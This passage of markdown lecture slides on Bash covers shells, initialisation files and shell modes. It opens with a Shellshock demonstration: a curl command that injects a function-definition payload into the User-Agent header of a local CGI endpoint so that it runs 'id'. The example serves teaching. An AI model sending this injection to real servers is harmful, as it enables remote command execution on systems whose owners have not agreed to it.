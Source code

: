 ```bash
curl -H "User-Agent: () { :; }; /bin/bash -c 'id'" \
  http://localhost:8080/cgi-bin/status
```

</div>
<div style="padding-top: 35px;">

![](../../figures/shellshock-CVE.png)

</div>
</div>

---

## What is a shell?

- User interface for running commands
- Interactive language
- Scripting language

---

## Shell Initialisation

The initialisation file sets up the “work environment” and “customizes” the shell environment for the user. The main agenda of Shell initialisation files are to persist common shell configuration, such as:

- `$PATH` and other environment variables
- shell prompt
  - `jovyan@jupyter-seb-20blair:~/AOS/Bash$ `
- shell tab-completion
- aliases, functions
  - `alias glg = "git log --graph --oneline --decorate --all"`
- key bindings
  - `bindsym $mod+d exec $menu`

---

## Shell modes

The shell can be run in three possible modes:

- Interactive login 
- Interactive non-login 
- Non-interactive 

---

## Operations for Different Shell Modes

<div style="padding-top:75px">

